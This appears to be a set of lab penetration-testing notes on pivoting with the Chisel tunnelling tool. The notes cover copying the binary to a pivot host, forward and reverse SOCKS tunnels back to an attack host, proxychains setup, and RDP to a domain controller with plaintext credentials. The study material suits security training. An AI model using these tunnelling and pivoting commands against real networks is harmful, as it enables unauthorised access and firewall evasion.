 - [Chisel](https://github.com/jpillora/chisel) is a TCP/UDP-based tunneling tool written in [Go](https://go.dev/) that uses HTTP to transport data that is secured using SSH. 
- `Chisel` can create a client-server tunnel connection in a firewall restricted environment.
## Setting Up & Using Chisel
```shell
git clone https://github.com/jpillora/chisel.git
cd chisel
go build
```
#### Transferring Chisel Binary to Pivot Host
```shell
sshpass -p '<pass>' scp chisel ubuntu@10.129.202.64:~/
```
#### Running the Chisel Server on the Pivot Host
```shell
./chisel server -v -p 1234 --socks5
```
#### Connecting to the Chisel Server
```shell
./chisel client -v 10.129.202.64:1234 socks
```
#### Editing & Confirming proxychains.conf
```shell
tail -f /etc/proxychains.conf 

[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```
#### Pivoting to the DC
```shell
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
## Chisel Reverse Pivot
#### Starting the Chisel Server on our Attack Host
- When the Chisel server has `--reverse` enabled, remotes can be prefixed with `R` to denote reversed. 
- The server will listen and accept connections, and they will be proxied through the client, which specified the remote. 
- Reverse remotes specifying `R:socks` will listen on the server's default socks port (1080) and terminate the connection at the client's internal SOCKS5 proxy.
#### Starting the Chisel Server on our Attack Host
```shell
sudo ./chisel server --reverse -v -p 1234 --socks5
```
Then we connect from the Ubuntu (pivot host) to our attack host, using the option `R:socks`
```shell
./chisel client -v 10.10.14.17:1234 R:socks
```
#### Editing & Confirming proxychains.conf
```shell
tail -f /etc/proxychains.conf 

[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```
#### RDP
```shell
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```